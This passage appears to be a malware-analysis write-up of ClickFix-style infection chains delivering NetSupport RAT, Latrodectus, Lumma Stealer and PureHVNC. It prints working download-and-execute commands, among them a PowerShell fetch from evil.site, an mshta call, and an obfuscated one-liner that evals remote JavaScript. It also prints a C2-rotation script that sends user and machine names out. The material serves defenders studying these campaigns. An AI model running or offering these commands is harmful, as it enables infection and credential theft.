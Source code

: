 ```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```

* `jp2launcher.exe` (legitimate Java WebStart) searches its directory for `msvcp140.dll`.
* The malicious DLL dynamically resolves APIs with **GetProcAddress**, downloads two binaries (`data_3.bin`, `data_4.bin`) via **curl.exe**, decrypts them using a rolling XOR key `"https://google.com/"`, injects the final shellcode and unzips **client32.exe** (NetSupport RAT) to `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader

```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```

1. Downloads `la.txt` with **curl.exe**
2. Executes the JScript downloader inside **cscript.exe**
3. Fetches an MSI payload → drops `libcef.dll` besides a signed application → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer via MSHTA

```
mshta https://iplogger.co/xxxx =+\\xxx
```

The **mshta** call launches a hidden PowerShell script that retrieves `PartyContinued.exe`, extracts `Boat.pst` (CAB), reconstructs `AutoIt3.exe` through `extrac32` & file concatenation and finally runs an `.a3x` script which exfiltrates browser credentials to `sumeriavgv.digital`.

## ClickFix: Clipboard → PowerShell → JS eval → Startup LNK with rotating C2 (PureHVNC)

Some ClickFix campaigns skip file downloads entirely and instruct victims to paste a one‑liner that fetches and executes JavaScript via WSH, persists it, and rotates C2 daily. Example observed chain:

```powershell
powershell -c "$j=$env:TEMP+'\a.js';sc $j 'a=new 
ActiveXObject(\"MSXML2.XMLHTTP\");a.open(\"GET\",\"63381ba/kcilc.ellrafdlucolc//:sptth\".split(\"\").reverse().join(\"\"),0);a.send();eval(a.responseText);';wscript $j" Prеss Entеr
```

Key traits
- Obfuscated URL reversed at runtime to defeat casual inspection.
- JavaScript persists itself via a Startup LNK (WScript/CScript), and selects the C2 by current day – enabling rapid domain rotation.

Minimal JS fragment used to rotate C2s by date:
```js
function getURL() {
    var C2_domain_list = ['stathub.quest','stategiq.quest','mktblend.monster','dsgnfwd.xyz','dndhub.xyz'];
    var current_datetime = new Date().getTime();
    var no_days = getDaysDiff(0, current_datetime);
    return 'https://'
        + getListElement(C2_domain_list, no_days)
        + '/Y/?t=' + current_datetime
        + '&v=5&p=' + encodeURIComponent(user_name + '_' + pc_name + '_' + first_infection_datetime);
}
```
